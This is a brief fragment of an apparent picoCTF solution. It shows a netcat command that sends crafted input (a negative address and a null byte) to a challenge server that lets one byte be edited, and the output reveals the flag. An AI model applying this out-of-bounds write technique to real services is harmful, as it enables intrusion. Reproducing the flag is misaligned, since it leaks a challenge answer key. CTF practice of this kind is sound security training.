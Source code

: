 ```console
% echo "-5144\n\x00\n\n" | nc mercury.picoctf.net 34499
You may edit one byte in the program.
Address: Value: lag is: picoCTF{ea0e7e8e8c7bf85caa6601f3dae7ce26}
```
